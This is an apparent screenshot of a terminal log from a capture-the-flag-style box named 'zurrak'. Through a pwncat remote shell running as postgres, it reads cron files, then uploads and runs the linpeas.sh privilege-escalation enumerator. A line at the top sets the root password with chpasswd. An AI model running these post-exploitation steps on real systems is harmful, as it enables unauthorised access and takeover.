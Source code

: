 ```bash
echo "root:1234" | chpasswd
(remote) postgres@zurrak:/home/postgres$ cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
cat: /etc/cron.weekly: Is a directory
cat: /etc/cron.yearly: Is a directory
(remote) postgres@zurrak:/home/postgres$ cat crontab -l
cat: invalid option -- 'l'
Try 'cat --help' for more information.
(remote) postgres@zurrak:/home/postgres$ crontab -l
no crontab for postgres
(remote) postgres@zurrak:/home/postgres$ cd /tmp
(remote) postgres@zurrak:/tmp$ 
(local) pwncat$ lpwd
/home/kali/temp/zurrak
(local) pwncat$ lcd ..
(local) pwncat$ upload linpeas.sh
./linpeas.sh ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 860.5/860.5 KB • ? • 0:00:00[05:30:36] uploaded 860.55KiB in 0.84 seconds                                                                                                   upload.py:76
(local) pwncat$                                                                                                                                             
(remote) postgres@zurrak:/tmp$ chmod +x linpeas.sh 
(remote) postgres@zurrak:/tmp$ ./linpeas.sh 
```
